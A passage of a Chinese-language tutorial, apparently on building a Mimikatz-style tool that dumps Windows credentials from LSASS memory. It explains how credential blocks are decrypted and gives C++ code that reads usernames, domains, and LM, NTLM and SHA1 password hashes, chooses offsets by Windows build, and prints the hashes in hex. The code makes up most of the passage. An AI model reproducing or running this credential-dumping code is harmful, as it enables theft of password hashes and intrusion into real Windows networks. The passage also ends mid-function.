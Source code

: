 在调用 `LsaEncryptMemory()` 函数时，参数 `Encrypt` 被设为 `FALSE`，因此将利用前文中提取出的初始化向量和密钥，对包含凭据的数据块进行解密。

### 3.2.3 打印用户哈希凭据

最后编写 `Msv1_0CredsOutput()` 函数，该函数根据 `NtOwfPassword`、`LmOwfPassword` 和 `ShaOwPassword` 的偏移量，从解密后的内存中取出它们的值，并以十六进制的格式打印出来，如下所示。

```c++
void Msv1_0CredsOutput(PGENERIC_PRIMARY_CREDENTIAL mesCreds)
{
	BOOL status = FALSE;
	PBYTE msvCredentials;
	const MSV1_0_PRIMARY_HELPER* pMSVHelper;

	if (mesCreds)
	{
		if (msvCredentials = (PBYTE)mesCreds->Buffer)
		{
			LsaUnprotectMemory(msvCredentials, mesCreds->Length);

			if (cLsass.osContext.BuildNumber < WIN_BUILD_10_1507)
				pMSVHelper = &MSV1_0_PrimaryHelper[0];
			else if (cLsass.osContext.BuildNumber < WIN_BUILD_10_1511)
				pMSVHelper = &MSV1_0_PrimaryHelper[1];
			else if (cLsass.osContext.BuildNumber < WIN_BUILD_10_1607)
				pMSVHelper = &MSV1_0_PrimaryHelper[2];
			else
				pMSVHelper = &MSV1_0_PrimaryHelper[3];

			UNICODE_STRING Username = *(PUNICODE_STRING)(msvCredentials + pMSVHelper->offsetToUserName);
			Username.Buffer = (PWSTR)((ULONG_PTR)(Username.Buffer) + (ULONG_PTR)(msvCredentials));
			wprintf(L"\n\t* Username    : %wZ", &Username);
			
			UNICODE_STRING LogonDomain = *(PUNICODE_STRING)(msvCredentials + pMSVHelper->offsetToLogonDomain);
			LogonDomain.Buffer = (PWSTR)((ULONG_PTR)(LogonDomain.Buffer) + (ULONG_PTR)(msvCredentials));
			wprintf(L"\n\t* Domain      : %wZ", &LogonDomain);

			if (!pMSVHelper->offsetToisIso || !*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisIso))
			{
				if (*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisLmOwfPassword))
				{
					wprintf(L"\n\t* LM          : ");
					PrintfHex(msvCredentials + pMSVHelper->offsetToLmOwfPassword, LM_NTLM_HASH_LENGTH);
				}
				if (*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisNtOwfPassword))
				{
					wprintf(L"\n\t* NTLM        : ");
					PrintfHex(msvCredentials + pMSVHelper->offsetToNtOwfPassword, LM_NTLM_HASH_LENGTH);
				}
				if (*(PBOOLEAN)(msvCredentials + pMSVHelper->offsetToisShaOwPassword))
				{
					wprintf(L"\n\t* SHA1        : ");
					PrintfHex(msvCredentials + pMSVHelper->offsetToShaOwPassword, SHA_DIGEST_LENGTH);
				}
			}
		}
	}
```